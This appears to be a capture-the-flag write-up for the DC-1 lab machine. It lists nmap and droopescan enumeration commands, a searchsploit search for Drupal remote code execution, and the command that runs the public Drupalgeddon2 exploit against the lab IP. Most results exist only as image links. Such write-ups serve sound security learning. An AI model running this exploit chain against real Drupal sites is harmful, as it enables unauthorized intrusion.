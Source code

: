 # DC-1

My IP address: 192.168.1.23

Machine IP: 192.168.1.27

# Enumeration:

## Nmap:

```bash
nmap 192.168.1.27
```

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled.png)

```bash
sudo nmap -sV -sC 192.168.1.27 -oN ./Nmap.init
```

[Nmap.init](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Nmap.init)

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled%201.png)

```bash
nmap -p- 192.168.1.27 -oN ./Nmap/all_ports.nmap
```

[all_ports.nmap](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/all_ports.nmap)

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled%202.png)

```bash
sudo nmap -sU 192.168.1.27 -oN ./Nmap/UDP-scan.nmap
```

[UDP-scan.nmap](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/UDP-scan.nmap)

## Drupal Scan:

```bash
droopescan scan drupal -u http://192.168.1.27/
```

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled%203.png)

# Manual Enumeration:

We have a Linux Box that hosts a `drupal` website on TCP port 80

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled%204.png)

Found `robots.txt`

```
http://192.168.1.27/robots.txt
```

All possible versions are vulnerable to SQLi that can be leveraged to RCE:

```
searchsploit drupal |grep "Remote Code Execution"
```

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled%205.png)

After some trial and error I found the following exploit:

```
https://github.com/dreadlocked/Drupalgeddon2
```

# Initial-Foothold:

[drupalgeddon2.rb](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/drupalgeddon2.rb)

```
ruby drupalgeddon2.rb "http://192.168.1.27/"
```

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled%206.png)

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled%207.png)

Wut:

```
cat /home/flag4/flag4.txt
```

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled%208.png)

# Pivoting:

# Escalation:

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled%209.png)

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled%2010.png)

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled%2011.png)

![Untitled](DC-1%20947d759ecf2e4ba6b1bcf8d87d9cd77c/Untitled%2012.png)